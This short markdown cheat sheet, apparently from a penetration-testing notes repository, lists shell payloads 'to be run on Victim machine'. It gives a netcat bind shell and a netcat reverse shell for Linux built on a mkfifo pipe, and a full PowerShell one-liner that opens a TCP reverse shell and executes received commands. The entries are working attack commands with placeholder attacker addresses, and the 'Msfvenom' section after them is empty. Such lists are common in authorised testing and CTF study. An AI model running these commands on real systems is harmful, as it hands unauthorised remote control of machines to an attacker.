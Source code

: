 # Shell Payload

## Alternative to "-e - execute " flag in nc win/linux ( to be run on Victim machine )

- Creating a bind shell for linux 
`mkfifo /tmp/f; nc -lvnp <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f`
  (It creates a pipe and then starts the nc listner/executes the command)

- Creating a Reverse shell for Linux
`mkfifo /tmp/f; nc <LOCAL-IP> <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f`

### Nc using pipe for windows
`powershell -c "$client = New-Object System.Net.Sockets.TCPClient('<ip>',<port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"`
Replace the <IP> & <Port>

# Msfvenom

